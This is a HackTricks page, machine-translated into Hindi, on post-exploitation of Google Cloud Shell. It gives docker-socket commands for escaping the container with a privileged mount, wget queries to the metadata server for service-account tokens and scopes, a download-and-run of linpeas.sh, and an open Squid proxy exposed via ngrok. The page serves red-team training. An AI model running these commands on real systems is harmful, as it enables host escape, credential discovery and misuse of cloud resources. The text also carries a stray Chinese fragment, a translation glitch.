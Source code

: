 # GCP - Cloud Shell Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

Cloud Shell के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Container Escape

ध्यान दें कि Google Cloud Shell एक कंटेनर के अंदर चलता है, आप **आसानी से होस्ट पर जा सकते हैं** ऐसा करके:

{% code overflow="wrap" %}
```bash
sudo docker -H unix:///google/host/var/run/docker.sock pull alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock run -d -it --name escaper -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock start escaper
sudo docker -H unix:///google/host/var/run/docker.sock exec -it escaper /bin/sh
```
{% endcode %}

यह गूगल द्वारा एक कमजोरियों के रूप में नहीं माना जाता है, लेकिन यह आपको उस वातावरण में हो रही घटनाओं का एक व्यापक दृष्टिकोण देता है।

इसके अलावा, ध्यान दें कि होस्ट से आप एक सेवा खाता टोकन पा सकते हैं:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/"
default/
vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/
```
{% endcode %}

निम्नलिखित स्कोप के साथ:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/scopes"

https://www.googleapis.com/auth/devstorage.read_only
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring.write
```
{% endcode %}

LinPEAS के साथ मेटाडेटा की गणना करें:

{% code overflow="wrap" %}
```bash
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
sh linpeas.sh -o cloud
```
{% endcode %}

[https://github.com/carlospolop/bf\_my\_gcp\_permissions](https://github.com/carlospolop/bf_my_gcp_permissions) का उपयोग करने के बाद **कोई अनुमति नहीं मिली**...

### इसे प्रॉक्सी के रूप में उपयोग करें

यदि आप अपने गूगल क्लाउड शेल इंस्टेंस का प्रॉक्सी के रूप में उपयोग करना चाहते हैं, तो आपको निम्नलिखित कमांड चलाने की आवश्यकता है (या उन्हें .bashrc फ़ाइल में डालें):
```bash
sudo apt install -y squid
```
बस आपको बताने के लिए कि Squid एक http प्रॉक्सी सर्वर है। एक **squid.conf** फ़ाइल निम्नलिखित सेटिंग्स के साथ बनाएं:
```bash
http_port 3128
cache_dir /var/cache/squid 100 16 256
acl all src 0.0.0.0/0
http_access allow all
```
**squid.conf** फ़ाइल को **/etc/squid** में कॉपी करें
```bash
sudo cp squid.conf /etc/squid
```
अंत में स्क्विड सेवा चलाएँ:
```bash
sudo service squid start
```
ngrok का उपयोग करें ताकि प्रॉक्सी बाहर से उपलब्ध हो सके:
```bash
./ngrok tcp 3128
```
tcp:// यूआरएल कॉपी करने के बाद चलाएँ। यदि आप ब्राउज़र से प्रॉक्सी चलाना चाहते हैं, तो tcp:// भाग और पोर्ट को हटा देना और अपने ब्राउज़र प्रॉक्सी सेटिंग्स के पोर्ट फ़ील्ड में पोर्ट डालना सुझावित है (squid एक http प्रॉक्सी सर्वर है)।

शुरुआत में बेहतर उपयोग के लिए .bashrc फ़ाइल में निम्नलिखित पंक्तियाँ होनी चाहिए:
```bash
sudo apt install -y squid
sudo cp squid.conf /etc/squid/
sudo service squid start
cd ngrok;./ngrok tcp 3128
```
The instructions were copied from [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key). उस पृष्ठ पर Cloud Shell में किसी भी प्रकार的软件 (डेटाबेस और यहां तक कि विंडोज) चलाने के लिए अन्य पागल विचारों की जांच करें।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
